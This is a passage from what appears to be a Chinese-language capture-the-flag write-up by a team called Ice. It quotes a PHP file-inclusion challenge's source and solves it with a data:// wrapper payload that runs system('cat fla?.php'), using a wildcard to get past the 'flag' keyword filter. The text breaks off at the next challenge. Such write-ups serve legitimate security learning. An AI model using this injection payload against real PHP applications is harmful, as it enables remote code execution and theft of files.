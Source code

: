 队伍名称：Ice

队伍成员：Icem0use

解出题目：

                 web：  Easy_include

                              Web_IP

                              Web_pop

                              PCREMagic





### 题目解题过程
#### Easy_include
发现php代码

```php
<?php
error_reporting(0);
//flag in flag.php
$file=$_GET['file'];
if(isset($file))
{
    if(!preg_match("/flag/i",$file))
    {
        include($file);
    }
    else
    {
        echo("no no no ~ ");
    }
}
else
{
    highlight_file(__FILE__);
}

?> 
```

通过代码审计 发现题目过滤了flag关键字并且存在文件包含漏洞  由于题目提示flag在flag.php里 于是利用伪协议读取 由于过滤了flag 利用通配符绕过

```php
 ?file=data://text/plain,<?php%20system('cat fla?.php');?>
```

打开源代码后发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737797462609-5a4e4b01-f56d-4859-b082-6c8dead4f8c5.png)

####  WEB_IP
打开靶机
